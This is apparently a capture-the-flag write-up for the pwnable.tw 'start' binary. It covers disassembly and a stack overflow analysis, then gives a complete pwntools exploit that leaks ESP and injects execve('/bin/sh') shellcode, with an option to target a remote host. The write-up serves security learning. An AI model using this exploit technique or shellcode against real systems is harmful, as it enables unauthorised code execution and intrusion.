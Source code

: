 ## Analyze
Start by analyzing the binary

file
```bash
./start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
checksec
```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
Points got :-
1. 32 bit binary
2. Intel 80386 architecture
3. No protection at all
Next we try running the code
```bash
└─$ ./start
Let's start the CTF:aaaaaaaaa
```
```
└─$ ./start 
Let's start the CTF:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
Buffer overflow occur
Lets check it in gdb

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
pwndbg> 
```
seems like not a ret2win chal
so we check for every functions, and only function \_start we should analyze
from gdb :-
```bash
pwndbg> disass _start
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   esp
   0x08048061 <+1>:	push   0x804809d
   0x08048066 <+6>:	xor    eax,eax
   0x08048068 <+8>:	xor    ebx,ebx
   0x0804806a <+10>:	xor    ecx,ecx
   0x0804806c <+12>:	xor    edx,edx
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
   0x08048087 <+39>:	mov    ecx,esp # address of esp into ecx to printout
   0x08048089 <+41>:	mov    dl,0x14 # number of bytes receive
   0x0804808b <+43>:	mov    bl,0x1 # fd = 1
   0x0804808d <+45>:	mov    al,0x4 # syscall for write() 
   0x0804808f <+47>:	int    0x80 # invoke syscall
   0x08048091 <+49>:	xor    ebx,ebx # return code 0 if success
   0x08048093 <+51>:	mov    dl,0x3c # Store 0x3c in edx
   0x08048095 <+53>:	mov    al,0x3 # syscall for read()
   0x08048097 <+55>:	int    0x80 # invoke syscall
   0x08048099 <+57>:	add    esp,0x14 # esp increase
   0x0804809c <+60>:	ret
End of assembler dump.
```
from ghidra :-
```ghidra
void processEntry entry(void)

{
    code *pcVar1;
    
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)(0x74732073,0x20747261,0x20656874,0x3a465443,_exit,&stack0x00000000);
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)();
    return;
}
```
the code will
	Line 01: Stores the esp value at this point on the stack.
	Line 02: Stores the start address of \_exit.
	Lines 03-06: Set eax, ebx, ecx, edx to 0x00.
	Lines 07-11: Store the string "Let's start the CTF:" on the stack
	Line 12: Store the current esp value in ecx
	Line 13: Store 0x14 in edx Line
	14: Store in ebx Store 0x01
	Line 15: Store 0x04 in eax
	Line 16: Execute call instruction. What to do and how to do it is determined by the values ​​in the registers. Here,
	write 20 bytes (edx is 0x14 = 20) to the standard output (ebx is 0x01) and a character string with ecx (same value as esp from line 12) as the starting address (eax is 0x04). In other words, write "Let's start CTF:" to standard output.
	Line 17: Set ebx to 0x00.
	Line 18: Store 0x3c in edx.
	Line 19: Store 0x03 in eax.
	Line 20: Execute the call instruction. Here, it means reading 60 bytes (edx is 0x3c=60) from standard input (ebx is 0x00) (eax is 0x03).
	Line 21: Add 0x14 to esp.
	Line 22: ret

## Exploit

1. Overflow the file
2. Make it return to Line 12 where we will get the address of ESP
3. The file will ask us for input again
4. Overflow + ESP address + shellcode

exploit.py
```python 3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './start'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
def leak_esp(r):
    address_1 = p32(0x08048087)           
    payload = flat('A'*20 , address_1)
    print(r.recvuntil('CTF:'))
    r.send(payload)
    esp = u32(r.recv()[:4])
    print("Address of ESP: ", hex(esp))
    return esp

io = start()



padding = 20
esp = leak_esp(io)
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline( payload)

# Receive the flag
io.interactive()
```

### Better explanation here -> https://security.nekotricolor.com/entry/pwnable-tw-start-write-up